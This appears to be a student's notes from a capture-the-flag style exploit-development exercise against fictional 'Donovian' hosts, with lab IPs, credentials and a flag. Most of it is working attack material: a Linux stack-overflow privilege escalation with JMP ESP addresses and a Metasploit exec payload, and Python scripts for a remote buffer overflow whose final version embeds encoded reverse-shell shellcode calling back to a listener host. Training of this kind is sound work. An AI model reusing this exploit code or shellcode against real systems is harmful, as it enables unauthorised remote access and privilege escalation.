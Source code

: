 Gorgas Exploit Development (GED)
XX Mar 2023
Start Time: 1300
Duration: 4 hours

Type of Operation: DEVOPS

Objective:Gorgas Cyber Forces have been able to retrieve copies of the files for your analysis, and stored them under /longTermStorage; however, you will be required to perform your exploits on the target systems. Maneuver through Donovian network, and successfully develop exploit to gain host access.

Tools/Techniques: Exploit binaries on target systems using the tools below.

Python
OllyDBG or an equivelent graphical program
http://www.ollydbg.de/
GNU Debugger's(GDB) Python Exploit Development Assistance Module
https://github.com/longld/peda
MetaSploit
https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers
Scenario Credentials: FLAG = 3XPL01T5t@rt0F@ct1v1ty

Prior Approvals: Gorgas Cyber Forces have been able to retrieve copies of the files for your analysis; however, you will be required to perform your exploits on the target systems. Exploit Donovian-Webserver, Donovian-Terminal, and Donovian-Manager hosts.

Scheme of Maneuver:
>Jump Box
->T1: 192.168.28.111
->T2: 192.168.28.105

>Jump Box
->donovian_grey_host
-->T3: 192.168.150.245
Target Section:

T1
Hostname: Donovian_Webserver
IP: 192.168.28.111
OS: CentOS
Creds: comrade :: StudentWebExploitPassword
Last Known SSH Port: 2222
Action: Exploit binary.

T2
Hostname: Donovian-Terminal
IP: 192.168.28.105
OS: unknown
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222

T3
Hostname: unknown
IP: 192.168.150.245
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Exploit a network service on the machine

### Linux 
Exploit this binary found on 192.168.28.111 at /.hidden/inventory.exe to escalate privileges from your pivot user to root.
Enter the contents of /.secret/.verysecret.pdb as the flag

- buffer 75 char; EIP = 76 bit
- buff = 'a' * 76
- EIP = vvv
- find /b 0xf7def000, 0xf7ffe000, 0xff, 0xe4
  - 0xf7df1b51  
  - 0xf7f6674b  
  - 0xf7f72753  
  - 0xf7f72c6b  
    - eip = '\x51\x1b\xdf\xf7'
- NOP = '\x90' * 10
- msf 
  - use payload/linux/x86/exec
  - set CMD cat /.secret/.verysecret
  - generate -b "\x00, \x0d, \x0a, \x20" -f python

- sudo /.hidden/inventory.exe <<< $(python mal.py)

### Windows
Executable Package: SecureServerind.exe & essfunc.dll
Task: Perform a remote buffer overflow on the vulnerable Windows executable from your Linux_analyst box. Gain a shell using exploit code Method: Utilize RE toolset and python to launch and develop exploit.
Launch your remote exploit at the Donovian Windows target on 192.168.150.245 to gain initial access. Your flag is within the public documents.

Immunity Debugger
- Need:
  - secureserverind
  - essfunc.dll
- tunnel to webserver
- search /var/www/ folder for longTermStorage folder
- pull secureserverind.exe and essfunc.dll and send to winops box
  - proxychains wget -r http://127.0.0.1/longTermStorage/
- send buffer overflow initial tests to win ops box
```
#! /usr/bin/python

import socket

buff = 'HELP'

winbox = '10.50.26.184'

s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM ) # create the socket
s.connect((winbox, 9999)) # connect to target
print s.recv(1024) # print response

s.send(buff) # send the stage
# s.send(buff + EIP + NOP + buf) # send the stage
print s.recv(1024) # print second response
s.close() # close socket
```
- send crash tests
```
#! /usr/bin/python

import socket

buff = 'TRUN /.:/'
buff += <str>

winbox = '10.50.26.184'

s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM ) # create the socket
s.connect((winbox, 9999)) # connect to target
print s.recv(1024) # print response

s.send(buff) # send the stage
# s.send(buff + EIP + NOP + buf) # send the stage
print s.recv(1024) # print second response
s.close() # close socket
```
- find EIP offset and search str for where that occurs
- find JMP ESP from EIP offset in ID
  - `!mona jmp -r ESP -m "essfunc.dll"`
  - Windows > Log data > Results
- Update python script
- get msfconsole payload
- set up nc -lvnp <port> listener
- send python script
```
#! /usr/bin/python

import socket

# buff = 'HELP'
buff = 'TRUN /.:/' # command to send
buff += 'A' * 2003


EIP = '\xa0\x12\x50\x62'
# 625012AD
# 625012BA

NOP =  '\x90' * 20

# windows/shell_reverse_tcp - 351 bytes
# https://metasploit.com/
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LHOST=10.50.28.168, LPORT=4444, 
# ReverseAllowProxy=false, ReverseListenerThreaded=false, 
# StagerRetryCount=10, StagerRetryWait=5, 
# PrependMigrate=false, EXITFUNC=process, 
# AutoVerifySession=true
buf =  b""
buf += b"\xbd\x78\x18\xa1\xa3\xdd\xc0\xd9\x74\x24\xf4\x5a"
buf += b"\x2b\xc9\xb1\x52\x31\x6a\x12\x83\xea\xfc\x03\x12"
buf += b"\x16\x43\x56\x1e\xce\x01\x99\xde\x0f\x66\x13\x3b"
buf += b"\x3e\xa6\x47\x48\x11\x16\x03\x1c\x9e\xdd\x41\xb4"
buf += b"\x15\x93\x4d\xbb\x9e\x1e\xa8\xf2\x1f\x32\x88\x95"
buf += b"\xa3\x49\xdd\x75\x9d\x81\x10\x74\xda\xfc\xd9\x24"
buf += b"\xb3\x8b\x4c\xd8\xb0\xc6\x4c\x53\x8a\xc7\xd4\x80"
buf += b"\x5b\xe9\xf5\x17\xd7\xb0\xd5\x96\x34\xc9\x5f\x80"
buf += b"\x59\xf4\x16\x3b\xa9\x82\xa8\xed\xe3\x6b\x06\xd0"
buf += b"\xcb\x99\x56\x15\xeb\x41\x2d\x6f\x0f\xff\x36\xb4"
buf += b"\x6d\xdb\xb3\x2e\xd5\xa8\x64\x8a\xe7\x7d\xf2\x59"
buf += b"\xeb\xca\x70\x05\xe8\xcd\x55\x3e\x14\x45\x58\x90"
buf += b"\x9c\x1d\x7f\x34\xc4\xc6\x1e\x6d\xa0\xa9\x1f\x6d"
buf += b"\x0b\x15\xba\xe6\xa6\x42\xb7\xa5\xae\xa7\xfa\x55"
buf += b"\x2f\xa0\x8d\x26\x1d\x6f\x26\xa0\x2d\xf8\xe0\x37"
buf += b"\x51\xd3\x55\xa7\xac\xdc\xa5\xee\x6a\x88\xf5\x98"
buf += b"\x5b\xb1\x9d\x58\x63\x64\x31\x08\xcb\xd7\xf2\xf8"
buf += b"\xab\x87\x9a\x12\x24\xf7\xbb\x1d\xee\x90\x56\xe4"
buf += b"\x79\x95\x94\xfa\xd1\xc1\xda\x02\x33\x4e\x52\xe4"
buf += b"\x59\x7e\x32\xbf\xf5\xe7\x1f\x4b\x67\xe7\xb5\x36"
buf += b"\xa7\x63\x3a\xc7\x66\x84\x37\xdb\x1f\x64\x02\x81"
buf += b"\xb6\x7b\xb8\xad\x55\xe9\x27\x2d\x13\x12\xf0\x7a"
buf += b"\x74\xe4\x09\xee\x68\x5f\xa0\x0c\x71\x39\x8b\x94"
buf += b"\xae\xfa\x12\x15\x22\x46\x31\x05\xfa\x47\x7d\x71"
buf += b"\x52\x1e\x2b\x2f\x14\xc8\x9d\x99\xce\xa7\x77\x4d"
buf += b"\x96\x8b\x47\x0b\x97\xc1\x31\xf3\x26\xbc\x07\x0c"
buf += b"\x86\x28\x80\x75\xfa\xc8\x6f\xac\xbe\xf9\x25\xec"
buf += b"\x97\x91\xe3\x65\xaa\xff\x13\x50\xe9\xf9\x97\x50"
buf += b"\x92\xfd\x88\x11\x97\xba\x0e\xca\xe5\xd3\xfa\xec"
buf += b"\x5a\xd3\x2e"

winbox = '192.168.150.245'

s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM ) # create $
s.connect((winbox, 9999)) # connect to target
print s.recv(1024) # print response

#s.send(buff) # send the stage
s.send(buff + EIP + NOP + buf) # send the stage

print s.recv(1024) # print second response
s.close() # close socket
```
- Once on box, in CMD shell
  - dir
  - type
  - cd

